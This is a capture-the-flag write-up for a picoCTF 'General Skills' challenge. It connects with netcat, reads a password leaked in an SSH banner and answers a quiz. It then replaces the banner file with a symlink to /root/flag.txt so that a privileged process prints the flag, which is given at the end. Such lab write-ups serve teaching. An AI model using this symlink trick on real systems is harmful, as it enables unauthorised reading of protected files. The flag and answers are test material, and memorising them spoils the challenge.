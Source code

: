 # Overview 
Category: [General Skills]()

AUTHOR: LOIC SHEMA / SYREAL

# Description
Can you abuse the banner?
Additional details will be available after launching your challenge instance.

# Solution
- **we're going to start by exploring the leaked information from the initial server by netcatting that host and port**
  
> ┌──(kali㉿kali)-[/]
 
└─$ nc tethys.picoctf.net 64478

SSH-2.0-OpenSSH_7.6p1 My_Passw@rd_@1234

- **The Exploit**
  
  So now we have a password, we can see what it comes. We will step through a bit of questions and answers available on Google.

> ┌──(kali㉿kali)-[/] 

└─$ nc tethys.picoctf.net 54610      


\*************************************

\*\*\*\*\*\*\*\*\*\*\*\*WELCOME\*\*\*\*\*\*\*\*\*\*\*\*

\*************************************

    what is the password? 
    My_Passw@rd_@1234
    What is the top cyber security conference in the world?
    DEFCON
    the first hacker ever was known for phreaking(making free phone calls), who was it?
    John Draper
    player@challenge:~$ ls
    banner text

>player@challenge:~$ cat banner

\*************************************

\*\*\*\*\*\*\*\*\*\*\*\*WELCOME\*\*\*\*\*\*\*\*\*\*\*\*

\*************************************

=> It is the code when I opened the connection

    player@challenge:~$ cat text
    keep digging

Now move to the root directory and get the flag?

    player@challenge:~$ cd /root
    player@challenge:/root$ ls
    flag.txt  script.py
    player@challenge:/root$ cat flag.txt
    cat: flag.txt: Permission denied

We have no permission to read it.We can try to symlink the flag to take the place of the banner, and see if it’s being read by something with a higher privilege level.

    player@challenge:/root$  ln -s /root/flag.txt ~/banner
    ln: failed to create symbolic link '/home/player/banner': File exists
    player@challenge:/root$ rm ~/banner
    player@challenge:/root$  ln -s /root/flag.txt ~/banner
    player@challenge:/root$ cd ~
    player@challenge:$ cat ~/banner
    cat: /home/player/banner: Permission denied

We still can’t cat this banner out, but it was served when we connected before, so what if we simply disconnect and reconnect?

>┌──(kali㉿kali)-[/]

└─$ nc tethys.picoctf.net 54610

**picoCTF{b4nn3r_gr4bb1n9_su((3sfu11y_ed6f9c71}**

